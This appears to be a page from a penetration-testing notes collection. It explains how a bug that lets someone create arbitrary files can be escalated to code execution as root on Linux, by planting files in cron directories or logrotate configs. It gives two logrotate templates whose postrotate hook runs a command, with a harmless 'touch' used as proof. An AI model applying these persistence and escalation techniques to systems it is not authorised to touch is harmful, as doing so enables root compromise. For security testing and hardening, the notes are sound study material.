 # Create Arbitrary File
These notes apply when you found a bug where:
* as root or user you can...
	* create an empty file
	* create file and control content (eg. arbitrary file upload)
	* create file and partially control content (eg. inject data into a config file)
		* control filename/path
		* partially control filename or path (eg. fixed extension)


### cronjob /etc/cron.daily
* create a file in `/etc/cron.daily/`
* requires `root` permissions
* executed through `crontab` via `run-parts`
	* file **must** be executable.
	* shell script or binary works

### cronjob via /etc/cron.d/pwn
* create a file in `/etc/cron.d/pwn`
* requires `root` permissions
* file syntax the same as in [crontab](../file-append/README.md#crontab)

### logrotate
* requires `root` permissions
* on Ubuntu 22.04 LTS `logrotate` is executed daily through `/etc/cron.daily/logrotate`
* logrotate config files in `/etc/logrotate.d/<anything>`
* consideres time in `/var/lib/logrotate/status` to determin if log should be rotated (you might have to wait for two days for a new file to trigger a first rotate)
* comment lines start with `# a comment`
* newlines are required! Format is strict
* unkown commands are ignored

#### Clean File
```
/etc/debian_version {
       hourly
       copy
       ifempty
       missingok 
       postrotate /usr/bin/touch /tmp/testrotate 
       endscript
}
```

#### Messy File
```
text and <00><ff>binary is okay here, but must not start with a [symbol]!@#

/etc/debian_version {
       thishere must be valid word at the start. symbols can appear [later!@] but not at the start!
       # a comment with # is similar to invalid command. anything can follow until newline \n (even binary)
       hourly
       copy
       ifempty
       missingok 
       postrotate /usr/bin/touch /tmp/testrotate 
       endscript
}

# comment here
xxxx {
asdas
}

[we]! can have symbols and garbage at the end
<00><ff> binary also ok here
```